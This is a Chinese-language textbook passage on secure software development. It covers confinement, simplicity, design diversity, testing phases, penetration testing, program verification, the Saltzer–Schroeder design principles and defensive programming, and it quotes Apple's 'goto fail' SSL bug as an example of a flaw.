### 限制

限制是操作系统对可疑程序使用的一种技术，有助于确保可能的损害不扩散到系统的其他部分。**受限**程序在可访问的系统资源方面受到严格限制。如果程序不可信，则其可访问的数据受到严格限制。强限制对于限制病毒传播特别有帮助。由于病毒通过传递性和共享数据传播，受限程序单个隔间内的所有数据和程序只能影响同一隔间内的数据和程序。因此，病毒只能传播到该隔间内的事物；它无法逃出隔间。

### 简洁性

简洁性——无论是设计还是实现——的理由显而易见：简单的解决方案更易于理解，留给错误的空间更小，也更易于审查故障。然而，简洁性的价值更深远。

有了简单的设计，设计和实现团队的所有成员都能理解设计中每个元素的角色和范围，因此每个参与者不仅知道期望他人做什么，也知道他人期望自己做什么。运行中系统最棘手的问题或许是维护：系统运行一段时间后，设计人员和程序员可能正在从事其他项目（甚至可能在其他公司），此时出现故障，一些倒霉的初级员工被指派修复故障。在缺乏项目背景的情况下，该员工必须尝试直觉原始设计者的意图，并充分理解缺陷的整个上下文以便修复它。简单的设计和实现有助于正确维护。

Hoare [HOA81] 简洁地论证了设计简洁性的必要性：

> 我曾绝望地警告新设计的晦涩、复杂和过度野心，但我的警告未被采纳。我得出结论，构建软件设计有两种方法：一种是使其足够简单，以至于**显然**没有缺陷；另一种是使其足够复杂，以至于没有**明显**的缺陷。

2014 年，年度 RSA 计算机安全会议的网站被攻破。RSA 公司（该会议的创办方和财务支持方）产品与销售高级副总裁 Amit Yoran 针对此事发表了讲话。“不幸的是，复杂性往往是安全的敌人，”他总结道，并强调他是代表 RSA 公司发言，而非代表 RSA 会议网站（一个独立实体）[KRE14]。

> **“复杂性往往是安全的敌人。”——Amit Yoran，RSA**

### 基因多样性

在本地电子产品商店，你可以买到集打印机、扫描仪、复印机、传真机于一体的多功能设备。与单独购买这四个组件的成本相比，它的价格很有优势，因为这四种功能的实现有相当大的重叠。此外，多功能设备体积小巧，你只需在系统上安装一个设备，而不是四个。但如果其中任何部分发生故障，你会一次性失去大量功能。因此，多功能机器代表了我们在任何系统设计中都要在功能性、经济性和可用性之间做出的权衡。

关于这类设备的架构决策，与上文关于模块化、信息隐藏以及软件组件复用或互换性的论点有关。基于这些原因，一些人建议在系统架构中采用异构性或“基因多样性”：让系统的许多组件来自单一来源，或依赖单个组件，都是有风险的。

然而，许多系统在这方面实际上相当同质化。出于便利性和成本考虑，我们经常设计使用单一供应商的软件或硬件（或两者兼有）的系统。例如，在计算机早期，从单一供应商处购买“捆绑”的硬件和软件非常方便。买家需要做的决定更少，如果出了问题，只需一个电话就能启动故障排查和维护。Daniel Geer 等人 [GEE03a] 考察了由单一制造商主导的计算单一文化，其特征通常是：今天由 Apple 或 Google 主导，昨天由 Microsoft 或 IBM 主导，明天未知。他们研究了农业中类似的情况，即整个作物可能易受单一病原体的侵害。在计算领域，病原体的等价物可能是从 Morris 蠕虫到 Code Red 病毒的恶意代码；这些“感染”造成的危害特别大，因为世界上很大比例的计算机因运行相同版本的操作系统而瘫痪（Morris 蠕虫针对 Unix，Code Red 病毒针对 Windows）。

多样性为攻击者创造了一个移动的目标。正如 Per Larson 及其同事所解释的 [LAR14]，自动引入多样性是可能的，但很棘手。编译器可以从一个源文件生成不同但功能等价的目标代码；重排语句（在功能上不依赖顺序的地方）、使用不同的存储布局，甚至添加无用但无害的指令，都有助于保护一个版本免受可能影响另一个版本的危害。然而，不同的输出目标代码可能会给代码维护带来噩梦。

***

**多样性减少了易受某一类攻击的目标数量。**

***

2014 年，许多计算机和网站受到所谓的 Heartbleed 恶意软件的影响，该软件利用了广泛使用的 `OpenSSL` 软件中的漏洞。SSL（安全套接层）是一种加密技术，用于保护浏览器的 Web 通信安全，例如保护银行交易的隐私。（我们将在 第 6 章 中介绍 SSL。）`OpenSSL` 实现被大多数网站使用；两个使用 `OpenSSL` 的主要软件包占使用 SSL 的网站的 66% 以上。由于 `OpenSSL` 的采用范围极广，这一漏洞影响了大量网站，使大多数互联网用户面临风险。关于软件缺乏多样性的警告在此尤为相关。然而，密码学是一个微妙的主题；即使编写正确的代码也可能泄露敏感信息，更不用说代码可能出错的许多微妙方式了。因此，有充分的理由让少数密码学实现接受分析师的严格审查。但通用代码呈现了大规模故障的单一或共同故障点。

此外，多样性成本高昂，大型用户（如公司或大学）必须维护多种系统，而不能将精力集中在仅一种系统上。此外，大量竞争产品将大幅增强多样性，但市场经济使得许多供应商难以获得足够的利润维持生存。Geer 在 [GEE03] 中完善了这一论点，该论点引发了 James Whittaker [WHI03b] 和 David Aucsmith [AUC03] 的辩论。对于这一困境，没有显而易见的正确解决方案。

产品的紧密集成也是一个类似的担忧。`Windows` 操作系统与 `Internet Explorer`、`Office` 套件和 `Outlook` 电子邮件处理程序紧密关联。其中一个组件的漏洞也可能影响其他组件。由于紧密集成，修复一个子系统中的漏洞可能会影响其他子系统。另一方面，采用更多样化（从供应商角度）的架构，另一供应商浏览器中的漏洞（例如）只会在两个系统通过定义良好的接口通信的范围内影响 `Word`。

当程序被加载到内存中执行时，会发生另一种形式的变化。**地址空间布局随机化** 是一种技术，它使模块在不同的时间加载到不同的位置（使用类似于基址寄存器和界限寄存器的重定位设备，详见 第 5 章）。然而，当整个模块作为一个单元被重定位时，获得一个真实地址就给了攻击者计算该模块所有其他部分地址的关键。

接下来我们从产品转向过程。如何生产出好的软件？与代码属性一样，这些过程方法不是配方：做这些事情并不能保证代码好。然而，就像代码特性一样，这些过程倾向于反映成功开发安全软件的人们的方法。

### 测试

测试是一个关注产品质量的过程活动：它旨在在潜在产品故障实际发生之前找到它们。测试的目标是使产品无故障（消除故障的可能性）；但现实地讲，测试只能降低故障的可能性或限制故障的影响。每个软件问题（尤其是与安全相关的问题）不仅可能导致软件故障，还可能对业务或生命造成不利影响。一个控制的失效可能会暴露出一个漏洞，而任何数量的正常运行的控制都无法缓解该漏洞。测试人员通过尽可能多地发现故障，并仔细记录其发现，以便开发人员能够定位原因并在可能的情况下修复问题，从而提高软件质量。

测试说起来容易做起来难，Herbert Thompson 指出安全测试尤其困难 [THO03]。James Whittaker 在 2010 年 8 月 20 日的 Google Testing Blog 中指出：“开发者种树；测试者管森林”，意思是测试者的工作是探索许多因素的相互作用。副作用、依赖关系、不可预测的用户以及有缺陷的实现基础（语言、编译器、基础设施）都增加了这种难度。但安全测试的本质复杂性在于，我们不能只关注程序做对的那一个行为；我们还必须寻找程序可能出错的成百上千种方式。

***

**安全测试试图预测程序可能失败的成百上千种方式。**

***

#### 测试类型

##### 测试阶段

测试通常涉及多个阶段。首先，每个程序组件都会单独进行测试。这种测试被称为**模块测试**、**组件测试**或**单元测试**，旨在验证该组件是否能根据其设计预期的输入类型正常工作。**单元测试**的目的是让测试团队向被测组件输入一组预定的数据，并观察产生的输出动作和数据。此外，测试团队还会检查内部数据结构、逻辑以及输入和输出数据的边界条件。

当组件集合都经过了单元测试后，下一步是确保组件之间的接口定义和处理得当。事实上，接口不匹配可能是一个重大的安全漏洞，因此接口设计通常会记录为**应用程序编程接口**或**API**。**集成测试**是验证系统组件是否按照系统和程序设计规格说明书中的描述协同工作的过程。

一旦开发人员验证了信息是按照设计在组件间传递的，就会对系统进行测试，以确保其具备所需的功能。**功能测试**对系统进行评估，以确定需求规格说明书中描述的功能是否真正由集成后的系统执行。结果是一个功能完备的系统。

功能测试将正在构建的系统与开发人员需求规格说明书中描述的功能进行比较。然后，**性能测试**将系统与其余的软硬件需求进行比较。在功能测试和性能测试期间，测试人员会检查安全需求，并确认系统的安全性符合要求。

性能测试完成后，开发人员确信系统按照他们对系统描述的理解在运行。下一步是与客户沟通，确保系统按照客户期望工作。开发人员与客户共同执行**验收测试**，根据客户的需求描述对系统进行检查。验收测试完成后，验收通过的系统将被安装在其使用环境中。最后运行一次**安装测试**，以确保系统仍按预期运行。然而，安全需求通常规定系统“不应该做某事”。正如侧边栏 3-11 所示，证明“不存在”比证明“存在”更难。

---

###### 侧边栏 3-11 不存在 vs. 存在

Charles Pfleeger [PFL97] 指出，安全需求类似于任何其他计算任务的需求，只有一个看似微不足道的差别。大多数需求说的是“系统将做这件事”，而安全需求增加了“且不做其他任何事”这一短语。正如我们在第 1 章中指出的，当有创造力的开发人员在系统规格说明上发挥自由发挥时，安全意识要求我们保持高度警惕。通常情况下，如果程序员或设计师增加了一点额外功能，我们不会担心。例如，如果需求要求生成磁盘上的文件列表，“额外功能”可能是按字母顺序对列表进行排序，或显示创建日期。但我们绝不会指望有人通过显示列表然后擦除磁盘上所有文件来满足需求！

如果我们能轻易判断某项添加是否有害，我们就可以直接禁止有害添加。但遗憾的是我们无法做到。出于安全原因，我们必须明确声明“且不做其他任何事”这一短语，并在需求定义中为任何提议的扩展留出协商余地。

程序员自然希望在扩展和拓展需求时发挥创造力。但看似良性的选择，例如将值存储在全局变量中或写入临时文件，可能会产生严重的安全隐患。有时，最有利于安全的设计方法反而是反直觉的。例如，对加密系统的一种攻击依赖于测量系统执行加密所需的时间。使用一种加密技术时，加密时间取决于密钥——一个允许“解锁”或解码加密的参数；加密时间具体取决于密钥的大小或位数。时间测量有助于攻击者了解大致的密钥长度，从而相应地缩小搜索空间（如第 2 章所述）。因此，高效的实现实际上可能会破坏系统的安全性。解决方案（奇怪的是）是用不必要的计算人为地填充加密过程，使得短计算完成得和长计算一样慢。

在另一个案例中，一位热心的程序员为加密过程添加了奇偶校验。但生成密钥的例程并未提供校验位，只提供密钥本身。由于密钥是随机生成的，结果导致 256 个加密密钥中有 255 个无法通过奇偶校验，从而导致使用一个固定密钥进行替代——因此在毫无预警的情况下，所有加密都在同一个密钥下执行！

没有任何技术能自动区分恶意扩展和良性代码。因此，我们必须依赖多种方法的组合，包括人工密集型方法，来帮助我们检测何时超出了需求范围并威胁到系统安全。

---

单元测试和集成测试的目标是确保代码正确实现了设计；即程序员编写的代码实现了设计师的意图。系统测试的目标截然不同：确保系统做的是客户想要它做的事。回归测试是系统测试的一个方面，对安全目的尤为重要。在对系统进行更改以增强功能或修复问题后，**回归测试**确保所有剩余功能仍在正常工作，且性能未因更改而降低。正如我们在侧边栏 3-12 中指出的，回归测试之所以困难，是因为它本质上要求重新确认所有功能。

---

###### 侧边栏 3-12 GOTO Fail 漏洞

2014 年 2 月，苹果发布了针对其 iOS 操作系统的维护补丁。该问题涉及实现 SSL（保护安全 Web 通信的加密技术，例如用户 Web 浏览器与银行网站之间的通信）的代码。该代码问题被称为“GOTO Fail”漏洞，如下面的代码片段所示。

点击此处查看代码图像

```
if ((err = SSLHashSHA1.update(&hashCtx, &serverRandom))  
         != 0)  
      goto fail;  
   if ((err = SSLHashSHA1.update(&hashCtx,  
         &signedParams)) != 0)  
      goto fail;  
         goto fail;  
   if ((err = SSLHashSHA1.final(&hashCtx, &hashOut))  
         != 0)  
      goto fail;  
   ...  
fail:  
   SSLFreeBuffer(&signedHashes);  
   SSLFreeBuffer(&hashCtx);  
   return err;
```

问题出在第七行。如果前两个条件语句为假，执行流程会直接落到重复的 `goto fail` 行，并退出该例程。该缺陷的影响是：即使是不安全的 Web 连接也会被视为安全连接。

此错误的起因未知，但似乎是在维护过程中移除了另一个条件语句（但未移除对应的 `goto fail` 条件动作），或者额外的一条 `goto fail` 语句被无意中粘贴进了该例程。这两种可能性都是可以理解的、非恶意的编程疏忽。

要通过回归测试捕获这种简单的编程错误，需要设置一个复杂的测试用例。程序员在维护期间往往面临快速完成修复的压力，因此没有时间进行彻底测试，这可能就是该缺陷成为操作系统标准发行版一部分的原因。

当你知道要寻找它时，该缺陷很小且易于发现，尽管它位于一个 1970 行文件的第 632 行，在那里它不如我们在此重现的片段中那样显眼。该错误影响了移动端的 iPhone 和 iPad，以及台式机 Macintosh 电脑。苹果发布的补丁表明该错误已在生产代码中存在了一段时间。有关该缺陷的更多详情，请参阅 Paul Ducklin 的博客文章：[`nakedsecurity.sophos.com/2014/02/24/anatomy-of-a-goto-fail-apples-ssl-bug-explained-plus-an-unofficial-patch/`](http://nakedsecurity.sophos.com/2014/02/24/anatomy-of-a-goto-fail-apples-ssl-bug-explained-plus-an-unofficial-patch/)。

---

此处列出的每种测试类型都可以从两个视角执行：黑盒和清晰盒（有时称为白盒）。**黑盒测试**将系统或其组件视为黑盒；测试人员无法“看到”系统内部，因此他们施加特定的输入并验证是否获得预期的输出。**清晰盒测试**允许可见性。在此，测试人员可以直接检查设计和代码，基于代码的实际结构生成测试用例。因此，清晰盒测试揭示了组件 X 使用了 `CASE` 语句，并可以寻找输入导致控制流落入到意外行的实例。黑盒测试必须更多地依赖所需的输入和输出，因为实际代码不可用于审查。

James Whittaker 在其测试博客中列出了测试的七大关键要素（[`googletesting.blogspot.com/2010/08/ingredients-list-for-testing-part-one.html`](http://googletesting.blogspot.com/2010/08/ingredients-list-for-testing-part-one.html)）。我们在此总结他的文章：

**1. 产品专业知识**。测试人员需要理解被测对象的需求和功能。更重要的是，测试人员应对产品有足够的熟悉度，以便预测其不能做什么，并能在所有配置下对其进行压力测试。

**2. 覆盖率**。测试必须是完整的，即没有任何组件应被忽视，无论多么微小或微不足道。

**3. 风险分析**。测试永远无法覆盖所有内容。因此，明智的测试——即明智有效地投入测试资源——是必要的。风险分析回答了哪些是最关键的部分以及什么可能严重出错的问题。由此，测试的优先级变得更加清晰。


## 4. 领域专业知识
测试人员必须理解被测产品。显然，不理解这两种温标的人无法有效测试华氏度到摄氏度的转换器。

## 5. 通用词汇
测试领域鲜有通用词汇；即使像**黑盒测试**这样的术语也有不同的解读。更重要的是，测试人员需要能够相互分享模式和技术，为此，测试人员需要对整个过程有一些共同的理解。

## 6. 变化性
测试不是核对清单练习；如果是，我们就会将整个过程自动化，让机器来做，且永远不会有产品故障。测试人员需要改变其常规，以不同方式测试不同的事物，并适应成功与失败。

## 7. 边界
因为测试可以无限期地继续下去，所以需要某种完整性和充分性的概念。有时，有限的时间或金钱资源决定了能做多少测试。更好的方法是一个合理的计划，以确定何种程度的测试是足够的。

### 测试的有效性
适合测试特定系统的技术组合取决于系统的规模、应用领域、风险程度以及许多其他因素。但了解每种技术的有效性有助于我们了解什么适合每个特定系统。例如，Olsen [[OLS93]](#bib01.html#bib_463) 描述了 Contel IPC 开发一个包含 184,000 行代码的系统的过程。他追踪了各项活动中发现的故障，并发现了以下差异：

- 17.3% 的故障是在系统设计检查中发现的
- 19.1% 在组件设计检查中发现
- 15.1% 在代码检查中发现
- 29.4% 在集成测试中发现
- 16.6% 在系统和回归测试中发现

只有 0.1% 的故障是在系统投入现场后才暴露出来的。因此，Olsen 的工作表明，在开发过程中使用不同技术来发现不同种类故障的重要性；我们不能依赖在某一时刻应用的单一方法来捕获所有问题。

谁来做测试？从安全角度来看，**独立测试**极为可取；它可以防止开发人员试图在例程中隐藏某些东西，或防止子系统控制将应用于它的测试。因此，独立测试增加了测试暴露隐藏功能影响的可能性。

### 测试的局限性
测试是最广泛接受的保证技术。正如 Earl Boebert [[BOE92]](#bib01.html#bib_81) 所观察到的，测试得出的结论基于正在被评估的实际产品，而非产品的某种抽象或前身。这种现实性是一种安全优势。然而，基于测试的结论必然存在局限，原因如下：

- 测试可以证明问题的*存在*，但通过测试并不能证明问题的*不存在*。
- 在合理的时间或精力内进行充分测试是困难的，因为输入和内部状态的组合爆炸使得完整测试复杂且耗时。
- 仅测试可观察的效果，而不测试产品的内部结构，无法确保任何程度的完整性。
- 测试产品的内部结构涉及通过添加代码来提取和显示内部状态以修改产品。这种额外的功能会影响产品的行为，并可能本身成为漏洞来源，或掩盖其他漏洞。
- 测试实时或复杂系统需要跟踪所有状态和触发器。这种可能情况的泛滥使得难以重现和分析测试人员报告的问题。

通常，我们从开发人员的角度考虑测试：单元测试模块、集成测试以确保模块协同正常工作、功能测试以追踪给定功能各方面的正确性，以及系统测试以结合硬件与软件。同样，执行回归测试是为了确保系统一部分的更改不会降低任何其他功能。但对于其他测试，包括验收测试，由用户或客户执行，以确定交付的产品是否为订购的产品。因此，保证的一个重要方面是考虑所运行的测试是否适合该应用和安全级别。测试的性质和种类反映了开发人员的测试策略：哪些测试解决什么问题。

同样，测试几乎总是受限于项目的预算和进度安排。这些限制通常意味着测试在某些方面是不完整的。因此，我们在测试策略中考虑测试覆盖率、测试完整性和测试有效性的概念。我们的测试越完整、越有效，我们对软件的信心就越强。更多关于测试的信息可参见 Pfleeger 和 Atlee [PFL10] 的著作。

#### 专门针对安全的对策
通用软件工程原则旨在产出正确的代码，这当然也是一个安全目标。然而，在程序设计、实现和部署过程中，也存在专门旨在提高成品安全性的活动。接下来我们将探讨这些实践。

### 安全设计原则
Multics（多路复用信息与计算服务）是一个主要的安全软件项目，旨在为用户提供计算公用设施，就像我们使用电力或水一样。系统愿景是用户能毫不费力地连接到它，使用所需的计算服务，然后断开连接——就像我们打开和关闭水龙头一样。显然，计算机安全的三个基本目标——机密性、完整性和可用性——对于这种广泛共享的事业都是必要的，安全也是三个参与方：麻省理工学院、AT&T 贝尔实验室和通用电气公司的主要目标。尽管该项目从未取得显著的商业成功，但其开发过程帮助确立了安全计算作为一门严谨且活跃的学科。Unix 操作系统源于 Multics，其他现在常见的操作系统设计元素也是如此，例如分层文件结构、动态调用模块和虚拟内存。

Multics 的首席安全架构师 Jerome Saltzer 和 Michael Schroeder 记录了几条旨在提高他们正在开发的代码安全性的设计原则。其中几条原则对于构建一个可靠、受信的操作系统至关重要。这些原则在 Saltzer [SAL74] 和 Saltzer 与 Schroeder [SAL75] 的著作中得到了清晰的阐述，包括以下内容：

* **最小权限**。每个用户和每个程序都应使用尽可能最少的特权进行操作。这样，无意或恶意攻击造成的损害将被最小化。
* **机制经济性**。保护系统的设计应当小巧、简单且直截了当。这样的保护系统可以被仔细分析、彻底测试、甚至被验证，并值得信赖。
* **公开设计**。保护机制不应依赖于潜在攻击者的无知；机制应当是公开的，仅依赖极少数关键项目的保密性，例如密码表。公开的设计也可供广泛的公众审查，从而提供对设计安全性的独立确认。
* **完全中介**。每一次访问尝试都必须被检查。必须同时考虑直接访问尝试（请求）和绕过访问检查机制的尝试，并且该机制的定位应使其无法被绕过。
* **基于许可**。默认条件应为拒绝访问。保守的设计者会识别出应该可访问的项目，而不是那些不应该可访问的项目。
* **权限分离**。理想情况下，对对象的访问应取决于不止一个条件，例如用户认证加上加密密钥。这样，攻破一种保护系统的人将无法获得完全访问权。
* **最小公共机制**。共享对象为信息流提供了潜在通道。采用物理或逻辑分离的系统可降低共享带来的风险。
* **易用性**。如果保护机制易于使用，就不太可能被用户规避。

这些原则已被安全社区普遍接受，认为有助于软件和系统设计的安全性。尽管它们源于计算机的“石器时代”——20 世纪 70 年代，但它们今天至少同样重要。作为这些基本准则何其根本和有效的标志，请参考卡内基梅隆大学软件工程学院计算机应急响应小组（CERT）最近发布的“十大安全编码实践” [CER10]。

1. 验证输入。
2. 重视编译器警告。
3. 为安全策略进行架构和设计。
4. 保持简单。
5. 默认拒绝。
6. 遵循最小权限原则。
7. 清理发送到其他系统的数据。
8. 实践纵深防御。
9. 使用有效的质量保证技术。
10. 采用安全编码标准。

这十条中，第 4、5、6 条直接对应 Saltzer 和 Schroeder 的原则，第 3、8 条是该工作的自然延伸。同样，代码卓越软件保障论坛（SAFECode）^(2) 发布的一份指导文档 [SAF11] 也与这些概念兼容，其中包括实施最小权限和沙箱（稍后定义）等建议，这些源自权限分离和完全中介。我们将在本章中详细阐述 SAFECode 的许多要点，并建议您在读完本章后阅读他们的完整报告。其他作者，如 John Viega 和 Gary McGraw [VIE01] 以及 Michael Howard 和 David LeBlanc [HOW02]，也在开发安全程序的过程中详细阐述了这些概念。

> 2. SAFECode 是一个非营利组织，专门致力于通过推进有效的软件保障方法，增加对信息和通信技术产品及服务的信任。其成员包括 Adobe Systems Incorporated、EMC Corporation、Juniper Networks, Inc.、Microsoft Corp.、Nokia、SAP AG 和 Symantec Corp.

#### 面向安全的渗透测试
本章所述的测试方法描述了适用于所有测试目的的方法：正确性、易用性、性能以及安全性。在本节中，我们将探讨几种在发现安全缺陷方面特别有效的方法。

我们在本章前面指出，**渗透测试**或**虎队分析**是计算机安全中常用的一种策略。（例如参见 [RUB01, TIL03, PAL01]。）有时它被称为**道德黑客攻击**，因为它涉及由一个专家团队尝试破解被测系统（而不是出于不道德原因闯入系统）。渗透测试人员的工作与实际攻击者可能做的事情非常相似 [AND04, SCH00b]。虎队非常了解操作系统和计算系统中的典型漏洞。利用这些知识，该团队尝试识别并利用系统的特定漏洞。

渗透测既是一门艺术，也是一门科学。艺术的一面要求在选择测试用例时进行仔细分析和创造性思考。但科学的一面要求严谨、有序、精确和组织性。正如 Clark Weissman 所观察到的 [WEI95]，存在一种用于假设和验证缺陷的有组织方法论。这并非如某些人所想，是一场随机的拳击比赛。

使用渗透测试就像请机械师在销售场地检查一辆二手车。机械师知道潜在的薄弱环节，并尽可能检查所有这些环节。优秀的机械师很可能会发现大多数重大问题，但发现问题（并修复它）并不能保证系统其他部分没有潜在的其他问题。例如，如果机械师检查了燃油系统、冷却系统和刹车，却无法保证消音器是完好的。

同样，未通过渗透测试的操作系统已知存在故障；但通过测试的系统并不能保证无故障。我们只能说，该系统很可能没有测试中所检查的那些类型的故障。尽管如此，渗透测试很有用，往往能发现其他测试形式可能忽略的故障。

> **未通过渗透测试的系统已知存在故障；通过测试的系统仅仅意味着没有发现被测试的那些故障。**

渗透测试之所以成功，一个可能的原因是它在真实环境条件下使用。用户经常以设计者未曾预料或意图的方式使用系统。因此，渗透测试人员可以利用这种真实环境和知识，使某些类型的问题显现出来。

商业界普遍认为，熟练的黑客会测试（攻击）一个站点，并在几天（如果不是几小时）内找出所有问题，因此渗透测试很受欢迎。但在复杂代码中查找缺陷可能需要几周甚至几个月，所以无法保证渗透测试一定有效。

事实上，最初的军事“红队”召集测试软件系统安全时，进行了为期 4 到 6 个月的演练——这是一段非常漫长的寻找缺陷的时间。Anderson 等人 [AND04] 详细阐述了渗透测试的这一局限性。在 100 万个输入的空间中寻找一个缺陷，可能需要测试所有 100 万种可能性；除非搜索空间合理受限，否则所需时间过高。为了测试测试人员，Paul Karger 和 Roger Schell 在精心设计和开发的 Multics 系统中植入了一个安全故障，以查看测试团队是否能发现它。即使 Karger 和 Schell 告知测试人员他们在系统中植入了一段恶意代码，测试人员也无法找到它 [KAR02]。渗透测试不是在大海捞针的神奇技术。

#### 程序正确性证明
安全专家希望确定给定程序能计算特定结果、计算正确，且不执行超出预期功能的任何操作。遗憾的是，计算机科学理论的结果表明，我们无法确定两个程序是否完全做同一件事。也就是说，不存在通用过程能判断任意两个程序是否等价。这一困难源于“停机问题”，即不存在通用技术来判断任意程序在处理任意输入时是否会停止。（详见 [PFL85]。）

尽管存在这一令人失望的通用结论，但一种称为**程序验证**的技术可以形式化地证明某些特定程序的“正确性”。程序验证涉及对程序输入做出初始断言，然后检查是否生成了期望的输出。每条程序语句都被转化为关于其对程序逻辑流贡献的逻辑描述。然后，程序的终止语句与期望输出相关联。通过应用逻辑分析器，我们可以证明初始假设加上程序语句的蕴含关系会产生终止条件。这样，我们可以证明特定程序实现了其目标。Sidebar 3-13 论述了正式证明技术的适当用例。

证明程序正确性虽令人向往且有用，但受多种因素阻碍。（详见 [PFL94]。）

- 正确性证明取决于程序员或逻辑学家将程序语句转化为逻辑蕴含的能力。正如编程容易出错，这种转化也容易出错。
- 从初始断言和语句蕴含中推导正确性证明很困难，且生成证明的逻辑引擎运行缓慢。随着程序规模增大，引擎速度下降，因此正确性证明随着程序规模增大而变得不那么适用。

> ###### Sidebar 3-13 正式方法能捕捉难以察觉的问题
> 正式方法有时用于检查安全系统的各个方面。对于什么构成正式方法存在一些分歧，但普遍认为每种正式方法都涉及使用数学上精确的规范和设计符号。在其最纯粹的形式中，基于正式方法的开发涉及生命周期每个阶段的细化和正确性证明。但并非所有正式方法都是平等的。
>
> Shari Lawrence Pfleeger 和 Les Hatton [PFL97a] 研究了正式方法对软件质量的影响。他们指出，对某些组织而言，支持此类技术所需的软件开发实践变革可能是革命性的。也就是说，从当前实践迁移到引入正式方法并不总是有简单的路径。这是因为有效使用正式方法可能要求在传统软件生命周期的一开始就进行根本性变革：我们如何捕获和记录客户需求。因此，该领域的赌注可能特别高。出于这个原因，极其渴望有令人信服的证据证明正式方法的有效性。
>
> Susan Gerhart 等人 [GER94] 指出：
>
> > 关于“正式方法是否划算？”这个问题没有简单的答案。我们的案例提供了大量数据，但仅触及了解决这些问题的可用信息的表面。所有案例涉及太多交织因素，无法将正式方法的回报与其他因素（如人员素质或其他方法论的影响）区分开。即使收集了数据，也难以在组织背景和围绕应用的各种因素中解读结果。
>
> 确实，Pfleeger 和 Hatton 对比了两个相似的系统：一个用正式方法开发，一个没有。前者质量高于后者，但其他可能性也能解释这种质量差异，包括对需求和设计的细致关注。

- 正如 Marv Schaefer [SCH89a] 所指出的，人们往往过分关注形式主义和推导形式证明，而忽视了要确保的底层安全属性。
- 程序验证的当前状态不如代码生产成熟。因此，正确性证明未能在大型生产系统中得到持续且成功的应用。

程序验证系统在不断改进。更大的程序能在比以前更短的时间内被验证。Gerhart [GER89] 简洁地描述了使用正式方法（包括正确性证明）的优缺点。随着程序验证的不断成熟，它可能成为确保程序安全的更重要控制手段。

#### 验证
##### 形式化验证
形式化验证是确保正确性的更通用方法的一个特定实例。有许多方法可以证明系统的每个功能都能正确工作。**验证** 是确认的对应面，确保系统开发人员已实现所有需求。因此，验证确保开发人员正在构建正确的产品（根据规格说明），而确认则检查实现的质量。有关软件工程中验证的更多详细信息，请参阅 Shari Lawrence Pfleeger 和 Joanne Atlee 的著作 [PFL10]。

##### 程序验证方法
程序可以通过几种不同的方式进行验证：

* **需求核对**。一种技术是将每个系统需求与系统的源代码或运行时行为进行交叉核对。目标是证明系统执行了功能需求中列出的每一项任务。这个过程是狭义的，因为它仅证明系统做了它应该做的一切。正如我们所指出的，在安全领域，我们同样关注预防：确保系统*不*做那些它不应该做的事情。需求核对很少涉及需求合规的这一方面。
* **设计和代码审查**。正如本章前面所述，设计和代码审查通常解决系统正确性问题（即确认）。但审查也可以解决需求实现问题。为了支持验证，审查人员会仔细检查设计或代码，以确保从每个需求到设计和代码组件的可追溯性，并在过程中记录问题（包括错误、不正确的假设、不完整或不一致的行为，或有缺陷的逻辑）。该过程的成功取决于审查的严谨程度。
* **系统测试**。程序员或独立测试团队选择数据来检查系统。这些测试数据的组织方式很像验收测试，因此从需求文档中读到的预期行为和数据可以在系统的实际运行中得到确认。检查是有条不紊地进行的，以确保完整性。

其他作者，特别是 James Whittaker 和 Herbert Thompson [WHI03a]、Michael Andrews 和 James Whittaker [AND06] 以及 Paco Hope 和 Ben Walther [HOP08]，都描述了安全测试方法。

### 防御性编程
“进攻卖门票；防守赢冠军”这句格言被归因于传奇的阿拉巴马大学橄榄球教练 Paul “Bear” Bryant, Jr.、明尼苏达州高中篮球教练 Dave Thorson 以及其他人。无论其出处如何，这句格言对计算机安全也有一定的适用性。正如我们已经展示的，世界总体上是充满敌意的：防御者必须应对所有可能的攻击，而攻击者只需找到一个弱点加以利用。因此，强大的防御不仅有帮助，而且是必不可少的。

程序设计人员和实现者不仅需要编写正确的代码，还必须预见可能出现的问题。正如我们在本章前面指出的，一个期望输入日期的程序，也必须能够处理格式不正确的输入，例如 `31-Nov-1929` 和 `42-Mpb-2030`。不正确输入的类型包括：

* **值与数据类型不匹配**，例如在数字字段中输入字母，或在真/假项目中输入 `M`。
* **值超出给定用途的范围**，例如年龄为负值，或日期为 `30 February`。
* **值不合理**，例如食谱中要求 `250 kilograms of salt`（250 千克盐）。
* **值超出比例或尺度**，例如房屋描述为 `4 bedrooms and 300 bathrooms`（4 间卧室和 300 间浴室）。
* **参数数量不正确**，因为系统并不总能保护程序免受此类错误的影响。
* **参数顺序不正确**，例如某例程期望 `age, sex, date`（年龄、性别、日期），但调用程序提供的是 `sex, age, date`。

> **程序设计人员不仅必须编写正确的代码，还必须预见可能出现的问题。**

正如 Microsoft 所说，安全软件必须能够经受住攻击：

> 软件安全是不同的。它是软件的一种属性，使其即使在受到攻击时也能继续按预期运行。软件安全不是某个特定的库或函数调用，也不是一种能神奇地转换现有代码的附加组件。它是所有利益相关者在整个软件开发生命周期中应用深思熟虑的方法所产生的整体结果。 [MIC10a]

### 可信计算计划


Microsoft 在 2002 年面临严重的代码质量问题。其产品频繁出现缺陷，并且它尽可能快地发布补丁。但补丁发布的零星性质让用户感到困惑，并使问题看起来比实际情况更严重。

公共关系问题变得如此之大，以至于 Microsoft 总裁 Bill Gates 下令全面停止代码开发，并对安全和编码实践进行自上而下的分析。该分析和进展计划被称为可信计算计划。在这项工作中，所有开发人员都接受了安全培训，并在整个公司推行了安全软件开发实践。

这项工作似乎达到了目标：代码补丁的数量大幅下降，降至每月两到三个关键安全补丁的水平。

### 契约式设计

被称为**契约式设计**™（Eiffel Software 的商标）或**契约式编程**的技术可以帮助我们识别潜在的错误来源。这种技术的商标形式涉及一种形式化的程序开发方法，但更广泛地说，这些术语指的是为每个程序模块记录其前置条件、后置条件和不变量。前置条件和后置条件分别是模块开始前和结束后必须为真（预期的、必需的或强制的）的条件；不变量是在模块执行期间始终必须为真的条件。实际上，每个模块都附带一个契约：它期望前置条件已被满足，并承诺满足后置条件。通过显式记录这些条件，程序可以在进入和退出时检查这些条件，以此防御那些未履行其契约条款或其契约与本模块条件相矛盾的其他模块。达到这种效果的另一种方法是使用**断言**，即关于模块的显式陈述。断言的两个例子是：“该模块接受 `age` 作为输入，预期在 0 到 150 岁之间” 和 “输入 `length` 以米为单位，为 10 到 20 之间的无符号整数”。这些断言是给与该模块交互的其他模块的通知，也是该模块可以验证的条件。

